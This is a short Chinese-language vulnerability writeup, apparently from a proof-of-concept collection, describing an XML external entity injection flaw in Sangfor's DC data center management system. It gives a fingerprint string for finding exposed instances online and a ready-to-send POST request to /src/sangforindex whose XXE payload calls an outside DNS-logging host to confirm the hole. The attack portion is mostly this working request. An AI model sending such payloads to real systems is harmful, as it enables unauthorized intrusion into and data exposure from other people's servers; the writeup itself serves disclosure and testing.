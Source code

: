 # 

# 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

## 漏洞描述

深信服 DC数据中心管理系统 sangforindex 接口存在XML实体注入漏洞，攻击者可以发送特定的请求包造成XML实体注入

## 漏洞影响

深信服 DC数据中心管理系统

## 网络测绘

```
"SANGFOR 数据中心"
```

## 漏洞复现

登陆页面

![image-20230828143259744](images/image-20230828143259744.png)

验证POC

```
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```

![image-20230828143318826](images/image-20230828143318826.png)
